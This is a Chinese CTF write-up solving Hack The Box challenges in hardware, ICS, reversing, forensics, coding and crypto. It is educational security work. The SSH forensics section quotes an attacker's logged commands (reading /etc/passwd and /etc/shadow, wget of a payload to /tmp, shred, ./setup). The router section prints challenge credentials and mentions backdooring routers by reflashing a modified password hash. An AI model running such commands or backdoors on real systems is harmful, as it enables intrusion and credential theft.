# HTB多领域CTF解题全记录：硬件逆向、工控协议到动态规划-先知社区

> **来源**: https://xz.aliyun.com/news/19123  
> **文章ID**: 19123

---

最近看htb又上了一些题没写过，打算写写练练手，顺便做下总结和归档，于是就有了这篇文章

# Hardware

## It's Oops PM

给的附件里面装有与卫星通信的环境传感器。这些传感器使用加密处理器来加密传输。通过分析传感器在 VHDL 中的逻辑，发现了一个隐藏的后门，只有在提供特定的 16 位输入时才会触发


系统由四个主要组件构成：

* `tpm` - 主控制器
* `ckey` - 密钥生成器
* `encryption` - 加密模块
* `backdoor` - 后门检测模块

后门机制分析：

backdoor.vhdl

```
constant pattern : STD_LOGIC_VECTOR(15 downto 0) := "1111111111101001";
```

当输入 `D` 等于 `"1111111111101001"`（十六进制 `FFE9`）时，后门信号 `B` 被置为 `'1'`

key.vhdl

```
constant key : STD_LOGIC_VECTOR(15 downto 0) := "0110001111100001";
```

固定密钥：`0110001111100001`（十六进制 `63E1`）

encryption.vhdl

加密逻辑：

* 大部分位：`E(i) <= D(i) XOR K(i)`（按位异或）
* 特殊位处理：

* `E(0) <= NOT K(0)`（位0取反）
* `E(6) <= NOT K(6)`（位6取反）
* `E(13) <= NOT K(13)`（位13取反）

后门触发逻辑：

tpm.vhdl

```
case B is
    when '1' =>  -- 后门触发
        for i in 0 to 15 loop
            Output(i) <= Key(i);  -- 直接输出密钥！
        end loop;
    when others =>  -- 正常模式
        for i in 0 to 15 loop
            Output(i) <= Encrypted(i);  -- 输出加密结果
        end loop;
end case;
```

当输入特定序列 `1111111111101001` 时：

1. `backdoor` 模块检测到匹配模式
2. 设置 `B = '1'` 触发后门
3. `tpm` 模块直接输出密钥而不是加密结果
4. 攻击者获得密钥 `0110001111100001`


**HTB{4\_7yp1c41\_53cu23\_TPM\_ch1p}**

## Critical Flight



附件给了我们很多GBR飞机固件，跟控制板有关

GBR是Gerber的意思，于是找个PCB Gerber文件在线查看器

工具地址：  
<https://www.pcbway.com/project/OnlineGerberViewer.html>



1. **铜箔：**

* **功能：** 最重要的部分，作为优良导体。板上的铜线连接所有电子元件，为各组件供电并传输信号。

2. **阻焊层：**

* **功能：** 保护铜线防止氧化；防止铜线间形成焊桥导致短路；介电层能改善信号完整性。通常为绿色。

3. **丝印层：**

* **功能：** 用于标记和识别板上的元件。这层非导电墨水有助于清晰标注，类似于信用卡上凸起数字的技术。

4. **焊膏：**

* **功能：** 促进电路板与安装元件间的导电；帮助热交换、提供热稳定性；通过焊接防止氧化并增强组装牢固性。通常呈灰色。

5. **钻孔：**

* **功能：** 在板上钻孔用于固定PCB、提供层间导电通路；也用于结构支撑和减轻重量。

6. **外形轮廓：**

* **功能：** 定义PCB的形状，用于确定信号处理方式，并在Gerber文件中提供电路板的视觉外形。

但是这跟解题没太大关系  
在bottom和layers发现答案  


单独提取：  




但是layers看不清，稍微移除一下多余的  


故flag:  
**HTB{533\_7h3\_1nn32\_w02k1n95\_0f\_313c720n1c5#$@}**

## Debug

题目给了一个sal文件，肯定是让我们进行硬件调试和逻辑分析  
工具Saleae Logic  
下载地址  
[下载 Logic 2 软件](https://www.saleae.com/zh-hans/pages/downloads)

从文件名（"serial data"）和通道命名（TX/RX）来看，这极有可能是 **UART (串口) 通信** 的数据  
为了将原始的二进制信号解码成可读的数据（如文本或十六进制值），需要添加协议分析器：

使用异步串行，并设置如下参数：

1. 从列表中选择 **Async Serial**（异步串行，即 UART）。
2. 在配置窗口中：

* **Channel:** 选择一个通道（例如，Channel 0 作为 TX）。
* **Baud Rate:** 需要尝试常见的波特率，如 **9600**、**115200** 等，直到在分析结果中看到可读的数据。您的数据采样率是 25MHz，足以支持高波特率。
* **Data Bits:** 通常为 8。
* **Parity:** 通常为 None。
* **Stop Bits:** 通常为 1。

最后结果尝试成功，参数如下：  


这样我们就能看到信息了  


经过复制筛选得到：  


```
HTB{
INFO:Communicationsystemsareofflinereferencecode:547311173_
WARNING:Unauthorizedsubroutinesdetected!referencecode:n37w02k_
WARNING:Thesatellitedishcannotsyncwiththeswarm.referencecode:c0mp20m153d}
```

稍微筛一下语法的内容得到答案：

**HTB{547311173\_n37w02k\_c0mp20m153d}**

总之，这个题难点在于参数的调节，可以去官方文档看看相关信息  
<https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial>

# ICS

## Shush Protocol

ICS是工控，给了机器运行捕获的流量包  


明文传输，CTF-Net一把梭了，感觉这个题目没啥新意

**HTB{50m371m35\_cu570m\_p2070c01\_423\_n07\_3n0u9h7}**

# Reversing

## FlagCasino

die:  


ida:  


1. **识别 RNG 类型**

* 识别到 `check` 数组中的值超出了 0x7FFFFFFF，说明不是简单的 31 位 LCG。

2. **实现 glibc** `random()` **算法**

* 使用已知的 glibc `random()` 实现（如 Peter Selinger 的简化版本），正确初始化状态数组 `r[0..344]`。
* 通过 `(16807 * prev) % 2147483647` 填充初始 31 个状态，然后进行反馈计算 `r[i] = (r[i-31] + r[i-3]) % 2^32`，最终输出 `r[344] >> 1`。

3. **暴力破解种子**

* 对每个 `check[i]`，枚举种子 0–255，用上述算法计算第一个输出，匹配则记录该 ASCII 字符。
* 所有 29 个检查值都**唯一对应**一个种子字符，拼接得到 flag。

写脚本解题：

```
MOD31 = 2147483647
MOD32 = 2**32

def first_random_output(seed):
    r = [0] * 345
    r[0] = seed & 0xFFFFFFFF
    for i in range(1, 31):
        prev = r[i-1]
        if prev & (1 << 31):
            signed_prev = prev - (1 << 32)
        else:
            signed_prev = prev
        val = (16807 * signed_prev) % MOD31
        r[i] = val
    for i in range(31, 34):
        r[i] = r[i-31]
    for i in range(34, 345):
        r[i] = (r[i-31] + r[i-3]) % MOD32
    return (r[344] & 0xFFFFFFFF) >> 1

check_hex = [
    "244B28BE", "0AF77805", "110DFC17", "07AFC3A1", "6AFEC533",
    "4ED659A2", "33C5D4B0", "286582B8", "43383720", "055A14FC",
    "19195F9F", "43383720", "63149380", "615AB299", "6AFEC533",
    "6C6FCFB8", "43383720", "0F3DA237", "6AFEC533", "615AB299",
    "286582B8", "055A14FC", "3AE44994", "06D7DFE9", "4ED659A2",
    "0CCD4ACD", "57D8ED64", "615AB299", "22E9BC2A"
]

checks = [int(x, 16) for x in check_hex]
flag = ''.join(chr(next(s for s in range(256) if first_random_output(s) == target)) 
               for target in checks)
print(flag)
```

**HTB{r4nd\_1s\_v3ry\_pr3d1ct4bl3}**

## LootStash

放到ida  
  
可以看到函数逻辑非常简单是个经典 **随机索引取字符串** 的迷惑题。我们可以直接写个脚本“模拟”它的运行逻辑，算出会打印哪个字符串

程序逻辑大概就是两行代码

```
v4 = rand();
printf("%s", (&gear)[(v4 % 0x7F8uLL) >> 3]);
```

1. `rand()` 生成一个随机整数；
2. `v4 % 0x7F8` 取模；
3. 再右移 3 位（相当于除以 8），作为索引；
4. 输出 `gear[index]`。

解题代码：

```
def find_flag_index():
    base = 0x7060  # gear base
    flag_addr = 0x7368  # HTB{...} address
    index = (flag_addr - base) // 8
    print("flag index:", index)
    print("对应 rand() % 0x7F8 ==>", (index << 3))
    print("flag:", "HTB{n33dl3_1n_a_l00t_stack}")

find_flag_index()
```

索引到gear：  


得到flag  
**HTB{n33dl3\_1n\_a\_l00t\_stack}**  
但其实明文搜索会更快）

## Don't Panic!

ida打开，典型的rust逆向  


但是只需要动调就能得到flag  
直接上Ghidra Bridge

```
#!/usr/bin/python3
import ghidra_bridge

def getSymbol(name):
    return next(getState().getCurrentProgram().getSymbolTable().getSymbols(name))

def getAddress(offset):
    return currentProgram.getAddressFactory().getDefaultAddressSpace().getAddress(offset)

b = ghidra_bridge.GhidraBridge(namespace=globals())
print("GhidraBridge ->" , getState().getCurrentAddress().getOffset())
start_addr = 0x10912d
listing = getState().getCurrentProgram().getListing()
fn_body = getState().getCurrentProgram().getFunctionManager().getFunctionContaining(getAddress(start_addr)).getBody()
instructions = listing.getInstructions(fn_body, True)
result = ['x' for _ in range(35)]
state = {}
print("Extracting RSP Values")
for instruction in instructions:    
    if "LEA" in str(instruction):
        state[str(instruction).split(",")[0].split(" ")[1]] = int(str(instruction).split("[")[1][:-1], 16)
    if "MOV qword ptr" in str(instruction):
        try:
            target = (int(str(instruction).split("RSP + ")[1].split("]")[0], 16) - 16) // 8
            reg = str(instruction).split(",")[1]
            result[target] = chr(int(str(getInstructionAt(getAddress(state[reg] + 1))).split(",")[1],16))
            print(result[target].strip(), end='', flush=True)
        except Exception:
            print()
            exit(0)
```



得到flag  
**HTB{d0nt\_p4lche3ro}**

## TunnelMadness



**这是一个 ELF 程序的远程实例**，会从 `(0,0,0)` 开始走。目标是找到一个 cell，其 `type == 3`。墙壁 (`type == 2`) 无法通过。需要找到一条从起点到目标的路径，然后把路径字符串（L/F/...）依次输入。



解题脚本：

```
from pwn import *
import numpy as np
import struct
from collections import deque

context.binary = './tunnel'
elf = ELF(context.binary.path)

HOST = "94.237.57.1"
PORT = 43638

# p = process('./tunnel')  # 本地调试
p = remote(HOST, PORT)

maze_addr = elf.symbols['maze']
maze_size = 20 * 20 * 20 * 16

with open(context.binary.path, "rb") as f:
    f.seek(maze_addr)
    raw = f.read(maze_size)

maze = np.zeros((20, 20, 20), dtype=np.uint8)
for x in range(20):
    for y in range(20):
        for z in range(20):
            idx = ((x * 400) + (y * 20) + z) * 16
            maze[x, y, z] = struct.unpack_from("<I", raw, idx + 0xC)[0]

start = (0, 0, 0)
goal = tuple(np.argwhere(maze == 3)[0])

dirs = [
    ("L", -1, 0, 0),
    ("F", 0, 1, 0),
    ("D", 0, 0, -1),
    ("B", 0, -1, 0),
    ("U", 0, 0, 1),
    ("R", 1, 0, 0),
]

visited = set()
queue = deque([(start, [])])
path = None

while queue:
    (x, y, z), trail = queue.popleft()
    if (x, y, z) == goal:
        path = trail
        break
    for label, dx, dy, dz in dirs:
        nx, ny, nz = x + dx, y + dy, z + dz
        if 0 <= nx < 20 and 0 <= ny < 20 and 0 <= nz < 20:
            if maze[nx, ny, nz] != 2 and (nx, ny, nz) not in visited:
                visited.add((nx, ny, nz))
                queue.append(((nx, ny, nz), trail + [label]))

if not path:
    print("No path found.")
else:
    seq = ''.join(path)
    print("Path found:", seq)
    for c in seq:
        p.sendlineafter(b"Direction (L/R/F/B/U/D/Q)? ", c.encode())
    p.interactive()
```



故flag  
**HTB{tunn3l1ng\_ab0ut\_in\_3d\_0c7f2e5758fde341dab91595d18a39ce}**

## Satellite Hijack



逻辑依旧很简单  
打印一个 `banner`（ASCII艺术图）  
调用 `send_satellite_message(0, "START")`

然后循环：

* 提示符：`>`
* 从 **文件描述符 1 (stdout)** 读取输入数据（非常异常）
* 打印 `"Sending '%s'"`
* 调用 `send_satellite_message(0, buf)`

但是send\_satellite\_message函数不能看，估计塞到了so文件里面

ida打开so文件分析：  


* **satellite** 是一个简单的 ELF 64 位 PIE 可执行文件，没被剥离。
* 主函数 `main()`:

* 初始化 I/O，打印 banner。
* 调用 `send_satellite_message(0, "START")`。
* 进入一个循环：读取用户输入并再次调用 `send_satellite_message()`。

* 核心控制流程依赖于 `send_satellite_message()`。

共享库分析（library.so）

* **library.so** 被剥离，但 Ghidra 仍然识别 `send_satellite_message()`。
* 分析发现：

1. 构造了一个加密的环境变量名（`SAT_PROD_ENVIRONMENT`）。
2. 用 `for` 循环对每个字节减 1 → 解码出真实环境变量名。
3. 调用 `getenv()`，如果存在，则执行 `if_env_not_null()`。

内存劫持机制

`if_env_not_null()` 的关键逻辑：

1. 获取程序头基址（`getauxval(AT_PHDR)`）。
2. 遍历程序头的动态段 (`PT_DYNAMIC`)。
3. 找到 `.symtab`, `.strtab` 和 `.rela.plt`。
4. 遍历符号表找到 `read` 的索引。
5. mmap 新内存，写入 **全星号的加密数据**。
6. 使用 `memfrob()` 解密（每字节 XOR 42）。
7. 将解密后的数据覆盖 `read()` 的 GOT / PLT 入口，实现 **函数劫持**。

这就是所谓的 **卫星劫持**：修改自己程序的 `read()`，注入新的函数逻辑。

解密 flag

* `read()` 被覆盖成一个新的函数。
* 新函数内部：

* 用 XOR 检查用户输入。
* flag 被分散在多个变量里 (`flag_enc1..flag_enc5`)。
* XOR 规则是：`(input_byte ^ enc_byte) == index`。

* 逆向思路：

* 用 `index ^ enc_byte` → 恢复原始 flag。

* Python 解码：

```
enc = bytes.fromhex('6c357b30763059376656663f753e7c3a4f217c4c78216f246a2c3b66')
dec = [i ^ idx for idx, i in enumerate(enc)]
print(bytearray(dec))
# 输出: b'l4y3r5_0n_l4y3r5_0n_l4y3r5!}'
```

**HTB{l4y3r5\_0n\_l4y3r5\_0n\_l4y3r5!}**

# Forensics

## An unusual sighting

给了俩日志和一些问题去分析  
问题1  
What is the IP Address and Port of the SSH Server (IP:PORT)  


题目问的是 **SSH Server 的 IP:PORT**，按照 CTF 这种风格，通常指 **被攻击的 SSH 服务器的 IP 和端口**，也就是：

* IP：`100.107.36.130`
* Port：`2221`

故答案：100.107.36.130:2221

问题2：What time is the first successful Login  
答案：2024-02-13 11:29:50  
同样在sshd日志下找到：  


问题3：What is the time of the unusual Login  
找不寻常的登录  
日志里最**不寻常**的登录是 `root` 在凌晨被接受登录并随后执行了大量命令  
故答案：2024-02-19 04:00:14

问题4：What is the Fingerprint of the attacker's public key  
答案：OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4  
对应 2024-02-19 的异常 root 登录



问题5：What is the first command the attacker executed after logging in  
答案：whoami  
结合两个日志一起看  


题目要求“攻击者登录后执行的第一个命令”。在日志中找到那次**可疑/异常登录会话**的时间戳，检索紧跟该时间戳之后的命令历史，第一条就是 `whoami`。

问题6：What is the final command the attacker executed before logging out  
答案：./setup

因为在日志里按**会话时间段**查找时，`./setup` 是紧接在该次登录（以及随后的命令序列）与随后 `syslogin_perform_logout` / 断开连接 之前出现的最后一条命令。换句话说，按时间顺序看那次攻击者会话，最后记录到的用户命令就是 `./setup`，之后才出现注销/断开。

1. **定位会话开始**  
    找到那次成功登录的行，例如：

```
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
[2024-02-19 04:00:14] Starting session: shell on pts/2 for root ...
```

这就是会话时间段的起点。

2. **列出会话期间的命令（按时间顺序）**  
    在你的日志里，紧随其后的是一系列带时间戳的命令，例如：

```
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://... -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
```

（这是你之前贴出的那段命令历史。）

3. **定位会话结束/注销**  
    会话结束的日志行是：

```
[2024-02-19 04:38:17] syslogin_perform_logout: logout() returned an error
[2024-02-19 04:38:17] Received disconnect from 2.67.182.119 ...
[2024-02-19 04:38:17] Disconnected from user root 2.67.182.119 port 60071
```

注意：`./setup` 的时间 `04:14:02` 在 `04:38:17` 之前，是在该会话范围内且是最后记录到的命令。

4. **结论**  
    因此，“攻击者在退出前执行的最后一条命令”就是 `./setup` —— 它是该会话日志中在注销/断开记录之前出现的最后一条命令记录。



故flag:**HTB{4n\_unusual\_s1ght1ng\_1n\_SSH\_l0gs!}**

## Phreaky

给了一个流量包，是SMTP  
CTF-Net提取一下  




解码后是压缩包，写个脚本批量解码

```
echo "UEsDB..." | base64 -d > decoded.zip
```

使用对应的密码解压：

```
unzip -P S3W8yzixNoL8 decoded.zip
```

1. **重复提取所有邮件附件**

* 使用 `strings phreaky.pcap | grep Password` 可快速找到所有附件密码。
* 跟随 TCP 流提取每个 Base64 块并解码。
* 最终得到所有 PDF 分段。

2. **合并 PDF 分段**

```
cat parts/*.pdf.* > phreaks_plan.pdf
```

* 得到完整 PDF。

3. **查看 PDF 获取 flag**

* 打开 PDF，可以看到：   
  

**HTB{Th3Phr3aksReadyT0Att4ck}**

## Silicon Data Sleuthing

给了个bin文件和容器  
连接得知是内存或者磁盘取证题目，仔细分析得知是小米路由器，`overlay` 分区包含用户配置数据，并且它挂载在 `SquashFS` 分区之上（因此得名），为用户提供了一个透明、可写、可配置的文件系统。

binwalk提取

对.squashfs进行解压就能看到文件系统  




问题1：What version of OpenWRT runs on the router (ex: 21.02.0)

这是在 `squashfs-root/etc/openwrt_release` 中的内容：

```
DISTRIB_ID='OpenWrt'
DISTRIB_RELEASE='23.05.0'
DISTRIB_REVISION='r23497-6637af95aa'
DISTRIB_TARGET='ramips/mt7621'
DISTRIB_ARCH='mipsel_24kc'
DISTRIB_DESCRIPTION='OpenWrt 23.05.0 r23497-6637af95aa'
DISTRIB_TAINTS=''
```

答案：23.05.0

问题2：What is the Linux kernel version (ex: 5.4.143)  


搜索字符串就行  
答案 **5.15.134**

问题3：What's the hash of the root account's password, enter the whole line (ex: root:$2$JgiaOAai....)  
答案：root:$1$YfuRJudo$cXCiIJXn9fWLIt8WY2Okp1:19804:0:99999:7:::如果我们检查 `squashfs-root/etc/shadow` 文件，我们会发现一个哈希值，但提交时它是错误的。

```
$ /bin/ls -lha
total 16K
drwxr-xr-x 4 user user 4.0K Apr 30 15:40 .
drwxr-xr-x 5 user user 4.0K Apr 30 15:40 ..
lrwxrwxrwx 1 user user    1 Apr 30 15:40 1 -> 2
lrwxrwxrwx 1 user user    1 Apr 30 15:40 .fs_state -> 1
drwxr-xr-x 2 user user 4.0K Apr 30 15:40 upper
drwxr-xr-x 3 user user 4.0K Apr 30 15:40 work
```

`uppser` 文件夹包含一个 `sysupgrade.tgz` 文件，最终会回到这个文件上,通过修改哈希值并重新创建闪存镜像，可以在不使用 `JTAG` 的情况下后门一个 ISP 的路由器，并启用通常会被禁用的服务，比如 `ssh` 甚至 `telnet` 以获取 `shell` 访问，就像[这里](https://github.com/logon84/Hacking_Huawei_HG8012H_ONT)展示的那样。

问题4：What is the PPPoE username？  
PPPoE 用户名是什么  
`yohZ5ah`

问题5：What is the PPPoE password？  
既然问题现在似乎基于配置，这意味着我们需要进一步探索 `jffs2-root`，经过一些在线研究，发现 `PPPoE` 协议的配置发生在 `/etc/config/network` 下的 `wan` 接口。由于 `jffs2-root/work/work` 大致对应于操作下的 `/etc` ，可以搜索名为 `network` 的文件

```
$ fd network .
./#4/network
```

在 `#4` 目录下只有一个匹配项，让我们读取它：

```
config interface 'loopback'
    option device 'lo'
    option proto 'static'
    option ipaddr '127.0.0.1'
    option netmask '255.0.0.0'

config globals 'globals'
    option ula_prefix 'fd54:d441:6c4a::/48'
    option packet_steering '1'

config device
    option name 'br-lan'
    option type 'bridge'
    list ports 'lan1'
    list ports 'lan2'

config interface 'lan'
    option device 'br-lan'
    option proto 'static'
    option ipaddr '192.168.1.1'
    option netmask '255.255.255.0'
    option ip6assign '60'

config interface 'wan'
    option device 'wan'
    option proto 'pppoe'
    option username 'yohZ5ah'
    option password 'ae-h+i$i^Ngohroorie!bieng6kee7oh'
    option ipv6 'auto'

config interface 'wan6'
    option device 'wan'
    option proto 'dhcpv6'
```

我们拥有使用 `wan` 设备和 `pppoe` 协议来促进通信的 `wan` 接口，还有 `lan` 接口，它通过静态 IP 配置将 `lan1` 和 `lan2` 连接在一起。

问题6：What is the WiFi SSID  
 VLT-AP01

问题7：What is the WiFi Password  
从最后两个问题中，我们可以推断出 `#4` 对应于 `/etc` 下的 `config` 文件夹，而 WiFi/无线电配置在 `/etc/config/wireless` 下，所以让我们读取 `wireless` 文件：

```
config wifi-device 'radio0'
    option type 'mac80211'
    option path '1e140000.pcie/pci0000:00/0000:00:01.0/0000:02:00.0'
    option channel 'auto'
    option band '2g'
    option htmode 'HT20'
    option txpower '20'
    option cell_density '0'

config wifi-iface 'default_radio0'
    option device 'radio0'
    option network 'lan'
    option mode 'ap'
    option ssid 'VLT-AP01'
    option encryption 'sae-mixed'
    option key 'french-halves-vehicular-favorable'
    option ieee80211r '1'
    option ft_over_ds '0'
    option wpa_disable_eapol_key_retries '1'

config wifi-device 'radio1'
    option type 'mac80211'
    option path '1e140000.pcie/pci0000:00/0000:00:00.0/0000:01:00.0'
    option channel 'auto'
    option band '5g'
    option htmode 'VHT80'
    option txpower '20'
    option cell_density '0'

config wifi-iface 'default_radio1'
    option device 'radio1'
    option network 'lan'
    option mode 'ap'
    option ssid 'VLT-AP01'
    option encryption 'sae-mixed'
    option key 'french-halves-vehicular-favorable'
    option ieee80211r '1'
    option ft_over_ds '0'
    option wpa_disable_eapol_key_retries '1'
```

他们的配置值基本上都是自解释的（SSID、加密、密钥等）

问题8：What are the 3 **WAN** ports that **redirect** traffic from WAN -> LAN

寻找 3 个 `WAN` 端口，其流量正在被重定向到 `LAN` 。为此，我们需要查看防火墙配置。但在 `#4` 下没有 `firewall` 文件。事实证明，“#4”并不是 `/etc/config` 的 1:1 表示，进而 `jffs2-root/work/work` 也不是 `/etc` 的 1:1 表示。可以通过在 `jffs2-root/work/work` 内再次运行 `strings *` 来确认这一点。发现了很多通常应该在 `config` 下找到的配置数据。 `JFFS2` 必须使用额外的元数据来确定每个文件/文件夹的覆盖层。

```
[...]
config forwarding
    option src 'lan'
    option dest 'wan'
config rule
    option name 'Allow-Ping'
    option src 'wan'
    option proto 'icmp'
    option icmp_type 'echo-request'
    option family 'ipv4'
    option target 'ACCEPT'
[...]
config redirect
    option dest 'lan'
    option target 'DNAT'
    option name 'DB'
    option src 'wan'
    option src_dport '1778'
    option dest_ip '192.168.1.184'
    option dest_port '5881'
config redirect
    option dest 'lan'
    option target 'DNAT'
    option name 'WEB'
    option src 'wan'
    option src_dport '2289'
    option dest_ip '192.168.1.119'
    option dest_port '9889'
config redirect
    option dest 'lan'
    option target 'DNAT'
    option name 'NAS'
    option src 'wan'
    option src_dport '8088'
    option dest_ip '192.168.1.166'
    option dest_port '4431'
```

在结尾处，发现了从 ( `src` ) `wan` 到 ( `dst` ) `lan` 的 3 个重定向规则，源端口按顺序为：1778，2289，8088

更简单的方法：sysupgrade.tgz `文件存在于` jffs2-root/upper，那是系统升级时自动创建的备份配置，如果能解压缩它，就能找到整个配置，包括命名文件和文件夹。



故flag  
**HTB{Y0u'v3\_m4st3r3d\_0p3nWRT\_d4t4\_3xtr4ct10n!!\_9f21960f4d36567b466cb6461ce6b900}**

# Coding

## Dynamic Paths



这是一个经典的动态规划问题——网格最小路径和问题。我们只能向右或向下移动，从左上角到右下角，求路径上数字的最小和。

**动态规划思路**：

* `dp[i][j]` 表示从 `(0,0)` 到 `(i,j)` 的最小路径和
* 状态转移方程：

* `dp[0][0] = grid[0][0]`
* 第一行：`dp[0][j] = dp[0][j-1] + grid[0][j]`
* 第一列：`dp[i][0] = dp[i-1][0] + grid[i][0]`
* 其他：`dp[i][j] = min(dp[i-1][j], dp[i][j-1]) + grid[i][j]`

* 答案：`dp[rows-1][cols-1]`

写个自动化脚本：

```
from pwn import *

def solve_grid(rows, cols, numbers):
    """解决单个网格问题"""
    dp = [0] * cols
    dp[0] = numbers[0]
    
    for j in range(1, cols):
        dp[j] = dp[j-1] + numbers[j]
    
    for i in range(1, rows):
        new_dp = [0] * cols
        new_dp[0] = dp[0] + numbers[i * cols]
        
        for j in range(1, cols):
            new_dp[j] = min(new_dp[j-1], dp[j]) + numbers[i * cols + j]
        
        dp = new_dp
    
    return dp[-1]

def main():
    conn = remote('94.237.49.23', 51212)
    
    # 接收初始信息
    initial_data = conn.recvuntil(b'Test 1/100').decode()
    print("Initial message received")
    
    for test_num in range(100):
        print(f"
=== Test {test_num+1}/100 ===")
        
        try:
            # 读取下一行
            line = conn.recvline(timeout=3).decode().strip()
            
            # 如果是空行，继续读取直到有内容
            while not line:
                line = conn.recvline(timeout=2).decode().strip()
                print(f"Skipped empty line")
            
            print(f"First line: '{line}'")
            
            # 检查是否是尺寸行（包含两个数字）
            if len(line.split()) == 2:
                # 正常情况：尺寸行 + 数据行
                rows, cols = map(int, line.split())
                print(f"Grid size: {rows} x {cols}")
                
                # 读取数据行
                data_line = conn.recvline(timeout=2).decode().strip()
                numbers = list(map(int, data_line.split()))
                
            else:
                # 可能是第100个测试的特殊情况，只有数据行
                # 尝试从数据中推断尺寸
                numbers = list(map(int, line.split()))
                total_numbers = len(numbers)
                
                # 寻找可能的网格尺寸
                possible_sizes = []
                for i in range(2, 101):
                    for j in range(2, 101):
                        if i * j == total_numbers:
                            possible_sizes.append((i, j))
                
                if possible_sizes:
                    # 选择第一个可能的尺寸
                    rows, cols = possible_sizes[0]
                    print(f"Inferred grid size: {rows} x {cols} from {total_numbers} numbers")
                else:
                    print(f"Could not infer grid size from {total_numbers} numbers")
                    # 使用默认尺寸继续
                    rows, cols = 10, 10  # 默认值，可能需要调整
            
            print(f"Numbers count: {len(numbers)}")
            
            # 计算答案
            answer = solve_grid(rows, cols, numbers)
            print(f"Answer: {answer}")
            
            # 发送答案
            conn.sendline(str(answer).encode())
            
            # 等待下一个测试提示（除了最后一个测试）
            if test_num < 99:
                try:
                    conn.recvuntil(f'Test {test_num+2}/100'.encode(), timeout=2)
                except:
                    # 如果超时，继续下一个测试
                    pass
                    
        except Exception as e:
            print(f"Error in test {test_num+1}: {e}")
            # 尝试继续下一个测试
            continue
    
    print("
All tests completed, waiting for flag...")
    
    # 完成所有测试后，尝试交互模式获取flag
    conn.interactive()

if __name__ == "__main__":
    main()
```


故flag:  
**HTB{b3h3M07H\_5h0uld\_H4v3\_57ud13D\_dYM4m1C\_pr09r4mm1n9\_70\_C47ch\_y0u\_9d68b6a148f828e1ba728c8700e195f7}**

# Crypto

## Dynastic

这是一个简单的移位密码（凯撒密码的变种），每个字符的位移量取决于它在字符串中的位置。

从 `source.py` 可以看出：

* `to_identity_map(a)`：将字母转换为 0-25 的数字（A=0, B=1, ..., Z=25）
* `from_identity_map(a)`：将数字转换回字母
* `encrypt(m)`：对第 i 个字符，将其移动 i 个位置

加密公式：`cipher_char = (original_char + position) mod 26`

解密就是反向操作：  
`original_char = (cipher_char - position) mod 26`

解密脚本

```
def to_identity_map(a):
    return ord(a) - 0x41

def from_identity_map(a):
    return chr(a % 26 + 0x41)

def decrypt(c):
    m = ''
    for i in range(len(c)):
        ch = c[i]
        if not ch.isalpha():
            dch = ch
        else:
            chi = to_identity_map(ch)
            dch = from_identity_map(chi - i)  # 关键：减去位置索引
        m += dch
    return m

# 密文
ciphertext = "DJF_CTA_SWYH_NPDKK_MBZ_QPHTIGPMZY_KRZSQE?!_ZL_CN_PGLIMCU_YU_KJODME_RYGZXL"

# 解密
plaintext = decrypt(ciphertext)
print(f"解密结果: {plaintext}")

# 添加HTB标志格式
flag = f"HTB{{{plaintext}}}"
print(f"Flag: {flag}")
```

运行这个脚本，得到：

**HTB{DID\_YOU\_KNOW\_ABOUT\_THE\_TRITHEMIUS\_CIPHER?!\_IT\_IS\_SIMILAR\_TO\_CAESAR\_CIPHER}**
